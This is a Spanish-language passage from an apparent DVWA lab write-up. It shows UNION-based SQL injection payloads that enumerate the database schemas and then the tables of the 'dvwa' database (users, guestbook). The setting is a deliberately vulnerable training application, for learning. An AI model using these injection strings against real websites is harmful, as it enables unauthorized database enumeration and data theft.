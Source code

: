 `1' UNION SELECT schema_name, NULL FROM information_schema.schemata -- -`

Y podemos ver que nos enumera las bases de datos existentes:

![db](/assets/images/DVWA-SQLi/SQLi-easy/databases.png)

Y vemos que nos enumeró 2 bases de datos:

- information_schema
- dvwa

Sabemos que la base de datos information_schema es una por defecto que siempre viene y de ahí es donde enumeramos el resto, por lo que aparte de esa por defecto, vemos una que nos llama la atención, llamada dvwa.

Así que enumeraremos las tablas existentes dentro de esa base de datos:

`1' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = 'dvwa' -- -`

![tables](/assets/images/DVWA-SQLi/SQLi-easy/tables.png)

Vemos que nos enumeró 2 tablas:

- users
- guestbook
